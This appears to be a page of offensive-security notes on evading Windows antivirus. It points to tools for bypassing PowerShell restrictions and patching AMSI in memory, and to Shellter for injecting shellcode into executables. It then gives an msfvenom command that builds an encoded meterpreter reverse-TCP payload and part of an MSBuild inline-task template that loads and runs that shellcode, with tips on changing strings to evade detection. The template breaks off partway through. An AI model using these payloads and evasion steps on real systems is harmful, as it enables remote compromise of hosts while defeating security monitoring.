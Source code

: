 Another options is: [https://github.com/p3nt4/PowerShdll](https://github.com/p3nt4/PowerShdll).

Also if Powershell v2 is installed we can bypass it too (because it does not support it).

### AMSI

AMSI loads Defender (or other AVs) into Powershell , .Net and others. A common bypass is to patch it in memory (it's being loaded as a DLL into a user process).

[https://github.com/rasta-mouse/AmsiScanBufferBypass](https://github.com/rasta-mouse/AmsiScanBufferBypass)

### Process Injection

Shelter [https://www.shellterproject.com/download/](https://www.shellterproject.com/download/) can inject shellcode into legit 32-Bit Executables and is likely to not get detected.

### MSBuild Shellcode

Generate payload for msbuild in csharp output format:

```bash
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f csharp -e x86/shikata_ga_nai -i <num of iterations> > <out>.cs`
```

Put the buffer into the template (be sure to change payload buffer, buffer size and some strings for av evasion:

```markup
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        public class ClassExample :  Task, ITask
        {         
          private static UInt32 MEM_COMMIT = 0x1000;          
          private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
          [DllImport("kernel32")]
            private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
            UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
          [DllImport("kernel32")]
            private static extern IntPtr CreateThread(            
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId           
            );
          [DllImport("kernel32")]
            private static extern UInt32 WaitForSingleObject(           
            IntPtr hHandle,
            UInt32 dwMilliseconds
            );          
          public override bool Execute()
```